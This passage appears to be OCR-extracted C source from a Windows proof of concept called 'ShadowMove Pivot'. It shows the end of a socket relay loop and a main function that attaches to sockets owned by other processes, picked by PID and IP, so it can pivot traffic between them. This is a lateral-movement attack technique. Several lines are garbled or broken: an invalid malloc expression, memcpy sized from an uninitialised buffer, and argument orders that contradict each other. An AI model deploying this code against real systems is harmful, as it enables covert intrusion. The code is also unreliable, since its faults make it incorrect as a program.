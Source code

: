 ```c
			if (nread <= 0)
				break;
			send(fd1, buffer_r, nread, 0);
		}
		if (FD_ISSET(fd1, &rd_set)) {
			nread = recv(fd1, buffer_r, BUFSIZE, 0);

			if (nread <= 0)
				break;

			// End of transmission
			if (nread >= strlen(MSG_END_OF_TRANSMISSION) && strstr(buffer_r, MSG_END_OF_TRANSMISSION) != NULL) {
				send(fd0, buffer_r, nread - strlen(MSG_END_OF_TRANSMISSION), 0);
				break;
			}

			send(fd0, buffer_r, nread, 0);
		}
	}
}


int main(int argc, char** argv) {
	WORD wVersionRequested;
	WSADATA wsaData;
	DWORD dwProcessIdSrc;
	WORD dwProcessIdDst;
	LPSTR dstIP = NULL;
	LPSTR srcIP = NULL;
	SOCKET srcSocket;
	SOCKET dstSocket;

	printf("\t\t\t-=[ ShadowMove Pivot PoC ]=-\n\n");

	// smpivot.exe [PID src] [PID dst] [IP dst] [IP src]
	/* It's just a PoC, we do not validate the args. But at least check if number of args is right X) */
	if (argc != 5) {
		printf("[!] Error: syntax is %s [PID src] [PID dst] [IP src] [IP dst]\n", argv[0]);
		exit(-1);
	}
	dwProcessIdSrc = strtoul(argv[1], NULL, 10);
	dwProcessIdDst = strtoul(argv[2], NULL, 10);

	dstIP = (LPSTR)malloc(strlen(argv[4]) * (char) + 1);
	memcpy(dstIP, argv[3], strlen(dstIP));
	srcIP = (LPSTR)malloc(strlen(argv[3]) * (char) + 1);
	memcpy(srcIP, argv[4], strlen(srcIP));

	// Classic
	wVersionRequested = MAKEWORD(2, 2);
	WSAStartup(wVersionRequested, &wsaData);

	srcSocket = findTargetSocket(dwProcessIdSrc, srcIP);

	dstSocket = findTargetSocket(dwProcessIdDst, dstIP);
	if (srcSocket == 0) {
		printf("\n[!] Error: could not attach to source socket");
		return -1;
	}
	printf("\n[<] Attached to SOURCE\n");
	if (dstSocket == 0) {
```